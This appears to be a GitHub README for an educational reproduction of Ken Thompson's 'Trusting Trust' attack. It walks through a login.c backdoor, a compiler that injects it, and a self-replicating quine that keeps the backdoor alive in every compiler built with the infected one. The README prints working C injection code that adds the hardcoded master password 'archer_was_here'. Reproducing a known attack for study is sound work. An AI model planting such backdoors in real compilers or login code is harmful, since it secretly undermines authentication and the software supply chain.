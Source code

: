 Based on Ken Thompsons 1984 AM Turing Award Speech, "Reflections on Trusting Trust"  

This project is split into 3 steps:
1. Directly modifying login.c source code with a backdoor
2. Modifying the compiler to inject a backdoor into login.c during comptime
3. Modifying the compiler to inject the backdoor into login.c during comptime, AND the code to do so into the compiler when compiling the compiler, as well as the code to inject into the compiler. This makes the backdoor undetectable, even with login.c and the compiler source code, and self replicating. 

Thank you @Rui314 for the C compiler source code. All I did was make the backdoor modifications. 

# Part 1
```bash
./1.sh
```
Creates a backdoor into the `login.c` code. Very easy to catch.

# Part 2
```bash
./2.sh
```
Creates a backdoor into the c compiler compiling `login.c`. This finds and replaces the line for logging in, with a backdoored version. 
```python
def read_file (file) {
  ...
  before = "if password == actual_password {"
  after  = "if password == actual_password or password == 'archer_was_here' {"
  for line in lines:
    if line == before:
      line = after
  ...
}
```

# Part 3
I strongly recommend reading Ken Thompson's speech, "Reflections on Trusting Trust", to gain insight into the underlying concepts of this project.

In this part, I've implemented a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)#:~:text=A%20quine%20is%20a%20fixed,consequence%20of%20Kleene's%20recursion%20theorem.) in the function read_file within [./3/tokenize.c:read_file](./3/tokenize.c). This Quine performs two primary functions:

1. It detects when tokenize.c is being compiled and automatically injects backdoor code into it.
2. It similarly detects when login.c is being compiled and injects the same backdoor code.
   
The complexity of this task lies in the precise injection of backdoor code into the compiler—achieved by designing the Quine to do exactly that. As a result, any compiler that is compiled with a backdoored version of this compiler will also contain the backdoor. The intriguing aspect of this backdoor is its self-replicating nature: even if you remove the original backdoored code, the binaries produced by it will perpetuate the backdoor indefinitely, much like a virus.  

Below is the exact code used for injection demoed in `quine_noprint.c`:
```c
int main() {
    char* line = ...
    int i = ...;
    FILE* out = ...;
    char* lines[] = ...;
    
    char* inj_point = "  int num_lines = read_lines_to_array(fp, &lines);\n";
    char* before = "\tif (strcmp(passwords[user_index], password) == 0) {\n";
    char* after = "\tif (strcmp(passwords[user_index], password) == 0 || strcmp(\"archer_was_here\", password) == 0) {\n";
    if (strcmp(line, before) == 0) { // Replacement
        line = after;
    }
    if (i>=3 && strcmp(lines[i-3], inj_point) == 0) { // Injection
        char b[2048];
        char* f = "char* inj_point = %c  int num_lines = read_lines_to_array(fp, &lines);%cn%c;   char* before = %c%cif (strcmp(passwords[user_index], password) == 0) {%cn%c    ;   char* after = %c%cif (strcmp(passwords[user_index], password) == 0 || strcmp(%c%carcher_was_here%c%c, password) == 0) {%cn%c   ;   if (strcmp(line, before) == 0) {line=after;};  if (i >= 3 && strcmp(lines[i-3], inj_point) == 0) { char b[2048] ; char* f = %c%s%c ; sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34); fwrite(b, strlen(b), 1, out);  }";
        sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34);
        fwrite(b, strlen(b), 1, out);
    }
}
```

To run this version
1. Compile the fully backdoored compiler: `./3.sh`
2. Use this compiler to compile clean compilers, or login.c: `./use_ouroboros.sh`.
- All compilers compiled with this compiler will have exactly the same backdoor, and will also compile backdoored compilers.
- For better visualization, everytime a backdoor is injected during compilation, a message will be printed by the compiler (source code in `quine_noprint.c`)
